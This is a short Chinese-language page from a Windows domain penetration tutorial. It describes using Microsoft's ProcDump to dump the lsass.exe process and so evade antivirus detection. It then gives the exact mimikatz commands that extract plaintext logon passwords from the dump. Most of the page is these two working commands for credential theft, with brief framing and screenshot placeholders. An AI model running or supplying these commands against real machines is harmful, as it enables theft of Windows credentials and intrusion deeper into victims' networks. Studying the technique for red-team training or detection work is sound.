 > 原文：[http://book.iwonder.run/域渗透/4.1.2.html](http://book.iwonder.run/域渗透/4.1.2.html)

### 4.1.2 procdump+mimikatz

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。可使用 procdump 加 mimikatz 来躲避杀软检测。

官方下载地址:[https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)

#### 1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp 
```

![image](img/baadc47a749a5a2369aafb59d900f127.png)

#### 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" 
```

![image](img/04fcffcbd421c164d5cd5b7a70a8bc82.png)


